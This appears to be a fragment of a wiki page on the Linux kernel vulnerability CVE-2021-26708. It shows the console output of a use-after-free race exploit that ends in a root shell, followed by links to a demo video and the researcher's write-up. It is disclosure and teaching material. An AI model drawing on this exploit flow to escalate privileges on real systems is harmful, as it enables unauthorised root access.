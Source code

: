     [+] stage V: try to do UAF on skb at ffff9125c42fa000
    [+] skb payload:
        start at 0x7f0d91120004
        skb_shared_info at 0x7f0d91120ec4
        tx_flags 0x8
        destructor_arg 0xffff9125c42fa100
        callback 0xffffffffab64f6d4
        desc 0xffff9125c3fd6e53
    [+] go racing, show wins: 15

    [+] stage VI: repeat UAF on skb at ffff9125c42fa000
    [+] go racing, show wins: 0 12 13 15 3 12 4 16 17 18 9 47 5 12 13 9 13 19 9 10 13 15 12 13 15 17 30

    [+] finish as: uid=0, euid=0
    [+] starting the root shell...
    uid=0(root) gid=0(root) groups=0(root),1000(a13x) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

<translate>

視頻
----

</translate> <https://www.youtube.com/watch?v=EC8PFOYOUgU>

<translate>

參考
----

</translate> <https://a13xp0p0v.github.io/2021/02/09/CVE-2021-26708.html>